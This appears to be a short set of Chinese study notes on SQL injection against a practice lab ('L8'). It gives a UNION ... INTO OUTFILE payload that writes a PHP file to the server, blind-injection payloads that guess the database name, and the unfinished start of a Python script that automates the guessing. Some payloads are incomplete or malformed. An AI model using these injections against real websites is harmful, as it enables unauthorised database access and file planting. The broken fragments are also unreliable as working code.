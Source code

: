 

## 写入文件



```sql
/?id=1')) union select '','','<?php echo "hacked"?> ' into outfile '$dirdata' --+
```







# L8



## 获取数据库名长度



```sql
/?id=1' and length(database())=$n
```



## 获取数据库名



```sql
/?id=1' substr(database(),1,1)='$v'
```



## 获取表名长度



```sql
/?id=1'  
```





## 脚本



```python
import requests
import re

def GetDataBaseName(code,url,right):
    addcode=" and length(database())="
    i=0
    max=256
    databasename=""
    databaselen=0
    while(1):
        r=requests.get(url,params=code+addcode+str(i)+"--+")
        if(re.search(right,r.text)):
            databaselen=i
            break
        else:
            i+=1

    i=1
```
